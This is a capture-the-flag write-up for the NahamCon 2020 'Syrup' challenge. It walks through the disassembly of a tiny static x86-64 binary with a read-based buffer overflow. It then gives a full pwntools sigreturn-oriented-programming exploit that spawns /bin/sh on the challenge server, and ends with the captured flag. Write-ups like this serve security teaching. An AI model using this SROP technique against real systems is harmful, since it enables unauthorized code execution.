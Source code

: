 # NahamCon CTF 2020

## Syrup

> 100
>
> Can you pwn me? 
>
> Connect here:</br>
> `nc jh2i.com 50036`</br>
>
> [`syrup`](syrup)

Tags: _pwn_ _x86-64_ _srop_ _bof_


## Summary

The title _Syrop_ is a pretty strong hint that this is an SROP challenge (that completely escaped me).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  However, with no libc and a small statically linked assembly binary, there's not a lot to work with ROP-wise.

    
### <strike>Decompile</strike> Disassemble with Ghidra 

There are four functions of interest:

```
                     entry
00401082 55              PUSH       RBP
00401083 48 89 e5        MOV        RBP,RSP
00401086 b8 01 00        MOV        EAX,0x1
         00 00
0040108b bf 01 00        MOV        EDI,0x1
         00 00
00401090 48 be 00        MOV        RSI=>msg,msg = "Can you pwn me?\n"
         20 40 00
         00 00 00 00
0040109a ba 11 00        MOV        EDX,0x11
         00 00
0040109f 0f 05           SYSCALL
004010a1 e8 9c ff        CALL       fn1
         ff ff
004010a6 e9 68 ff        JMP        nope
         ff ff
```

`entry` just prints `Can you pwn me?` using the `write` system call, then calls `fn1` before jumping to `nope`.

```
                     nope
00401013 b8 01 00        MOV        EAX,0x1
         00 00
00401018 bf 01 00        MOV        EDI,0x1
         00 00
0040101d 48 be 11        MOV        RSI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
00401027 ba 07 00        MOV        EDX,0x7
         00 00
0040102c 0f 05           SYSCALL
0040102e b8 3c 00        MOV        EAX,0x3c
         00 00
00401033 bf 00 00        MOV        EDI,0x0
         00 00
00401038 0f 05           SYSCALL
0040103a 2f              ??         2Fh    /
0040103b 62              ??         62h    b
0040103c 69              ??         69h    i
0040103d 6e              ??         6Eh    n
0040103e 2f              ??         2Fh    /
0040103f 73              ??         73h    s
00401040 68              ??         68h    h
00401041 00              ??         00h
```

`nope` just emits `Nope` and then exits using the `exit` syscall.

However, there's the string `/bin/sh\x00`.  Probably something we'll need.

```
                     fn1
00401042 55              PUSH       RBP
00401043 48 89 e5        MOV        RBP,RSP
00401046 b8 ad de        MOV        EAX,0xdead
         00 00
0040104b 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401051 50              PUSH       RAX
00401052 48 83 ed 08     SUB        RBP,0x8
00401056 48 81 ed        SUB        RBP,0x400
         00 04 00 00
0040105d b8 00 00        MOV        EAX,0x0
         00 00
00401062 bf 00 00        MOV        EDI,0x0
         00 00
00401067 48 89 ee        MOV        RSI,RBP
0040106a ba 00 08        MOV        EDX,0x800
         00 00
0040106f 0f 05           SYSCALL
00401071 58              POP        RAX
00401072 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401078 48 3d ad        CMP        RAX,0xdead
         de 00 00
0040107e 75 93           JNZ        nope
00401080 5d              POP        RBP
00401081 c3              RET
```

`fn1` puts `0xdead ^ 0xbeef` on the stack, allocates `0x400` bytes, then calls `read` to _read_ in up to `0x800` bytes from `stdin`.  This is the vulnerability.  However there's the "canary" check, and if that fails, then `nope`.  Otherwise it returns to `entry` and jumps to `nope`.

Clearly we have to take control of RIP with this buffer overflow.

```
                     fn2
00401000 55              PUSH       RBP
00401001 48 89 e5        MOV        RBP,RSP
00401004 58              POP        RAX
00401005 48 bf 11        MOV        RDI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
0040100f 0f 05           SYSCALL
00401011 5d              POP        RBP
00401012 c3              RET
```

`fn2` has no purpose other than to help us out.  It'll pop RAX and `syscall`.  With ROP, setting RAX and _returning_ to `POP RAX` to then get any syscall we want is easy enough, however, the challenge is setting all the other registers.

[Sigreturn Oriented Programming (SROP)](https://docs.pwntools.com/en/stable/rop/srop.html) solves that problem.

> _**sigreturn**() exists only to allow the implementation of signal handlers.  It should **never** be called directly. -- man 2 sigreturn_

lol


## Exploit

```
#!/usr/bin/python3

from pwn import *

binary = ELF('./syrup')
context.update(arch='amd64',os='linux')

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = next(binary.search(b'/bin/sh'))
frame.rsi = 0
frame.rdx = 0
frame.rip = next(binary.search(asm('syscall')))

payload  = 0x400 * b'A'
payload += p64(0xdead ^ 0xbeef)
```

Setup the stack frame to call `execve(/bin/sh)`.  The `0x400` + the "canary" payload gets to the saved base pointer.

There are at least two options (_clever_ and _not to clever_) to call `sigreturn`.

Clever:

```
payload += p64(constants.SYS_rt_sigreturn)
payload += p64(binary.symbols['fn2'])
```

The clever way puts the `rt_sigreturn` syscall number in RBP.  Then overwrites the return address with the address of `fn2`.  `fn1` before `ret` will pop RBP, then `fn2` will push RDB, then pop RAX before the `syscall`.

> They really thought of everything. 

Not so clever:

```
payload += p64(0x0)
payload += p64(0x00401004) # pop rax
payload += p64(constants.SYS_rt_sigreturn)
```

The other option is to just write anything to the saved base pointer in the stack, and then have the return address be the address of the `POP RAX` from `fn2`, then the syscall number.

In either case the generated stack frame needs to follow the overwritten return address:

```
payload += bytes(frame)
```

Finally:

```
#p = process(binary.path)
p = remote('jh2i.com', 50036)

p.recvuntil('Can you pwn me?')
p.sendline(payload)
p.interactive()
```

Just send it and get a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/nahamconctf2020/syrup/syrup'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to jh2i.com on port 50036: Done
[*] Switching to interactive mode

\x00$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
syrup
$ cat flag.txt
flag{Sr0ppin_t0_v1ct0Ry}
```

